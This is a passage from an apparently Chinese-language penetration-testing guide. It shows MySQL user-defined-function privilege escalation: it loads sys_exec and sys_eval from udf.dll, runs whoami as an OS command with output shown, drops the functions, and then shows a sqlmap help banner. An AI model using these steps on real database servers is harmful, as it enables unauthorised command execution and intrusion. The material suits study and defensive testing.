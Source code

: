 创建2个函数:
```
sys_exec 该函数无法回显结果
sys_eval 可回显执行结果
create function sys_exec RETURNS int soname 'udf.dll';
create function sys_eval returns string soname 'udf.dll';


看下函数是否成功创建
mysql> select * from mysql.func where name = "sys_exec";
+----------+-----+---------+----------+
| name     | ret | dl      | type     |
+----------+-----+---------+----------+
| sys_exec |   2 | udf.dll | function |
+----------+-----+---------+----------+
1 row in set (0.00 sec)
```



🌹第4步 - 执行函数

```
执行sys_eval函数 该函数可回显执行结果
mysql> select sys_eval('whoami');
+------------------------+
| sys_eval('whoami')     |
+------------------------+
| desktop-s2l4c24\k0rz3n |
+------------------------+
1 row in set (0.27 sec)

执行sys_exec函数 该函数无法回显结果, 会在目标主机桌面上弹出黑框并立即退出!
mysql> select sys_exec('whoami');
+--------------------+
| sys_exec('whoami') |
+--------------------+
|                  0 |
+--------------------+
1 row in set (0.28 sec)
```


```
🌹第5步 - 删除2个函数的定义

drop function sys_exec;
drop function sys_eval;
```


### Usage

```
➜  sqlmap git:(master) ✗ python sqlmap.py -hh
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.6.2#dev}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: Python sqlmap.py [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
```